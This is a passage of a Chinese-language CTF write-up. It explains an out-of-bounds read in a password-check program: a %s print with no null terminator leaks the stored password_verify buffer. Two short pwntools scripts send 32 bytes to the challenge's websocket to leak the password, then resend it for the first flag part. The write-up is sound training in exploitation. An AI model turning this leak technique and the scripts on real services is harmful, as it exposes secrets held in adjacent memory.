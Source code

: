 `get_admin_password` 涉及一个文件叫 `password.txt`，这个文件当然是保存在远程的，我们无法拿到，在这条路堵死了。

`get_user_password` 这里调用了一个 `tea_decrypt` 的函数来解密一个叫 `KEY` 的东西，传回去，与我们的密码相同就给出 flag 的第一部分。

这道题真正的漏洞在于最后的 `wrong_password` 部分，这里的输出是采用 `%s` 的方式输出的，这个输出方式是一直输出直到看到 `\0` 才会停止，因为这个程序存储是紧贴着的，username 紧接着就是 password ，再接着就是 password_verify，这个 password_verify 正是我们想要的东西，存储 admin 和 user 的 password。换言之，如果我们输入的 password 中没有 `\0`，那么程序会一直输出，把 password_verify 给放出来。那么我们通过交互界面来测试一下：

![image-20240707131737913](/Users/bruce/Library/Application Support/typora-user-images/image-20240707131737913.png)

果然，在 wrongpassword 时放出了正确的密码：I_am_very_very_strong_password!!重新输入一遍进行交互，就可以得知 flag 的前半部分：

![image-20240707131837767](/Users/bruce/Library/Application Support/typora-user-images/image-20240707131837767.png)

用 python 代码就这么编写：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("user")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("A"*32)
p.interactive()
```

得到：

![image-20240707133439387](/Users/bruce/Library/Application Support/typora-user-images/image-20240707133439387.png)

得到正确密码，用 python 代码再交互一遍：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("user")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("I_am_very_very_strong_password!!")
p.interactive()
```

得到 flag 第一部分：

![image-20240707133945119](/Users/bruce/Library/Application Support/typora-user-images/image-20240707133945119.png)
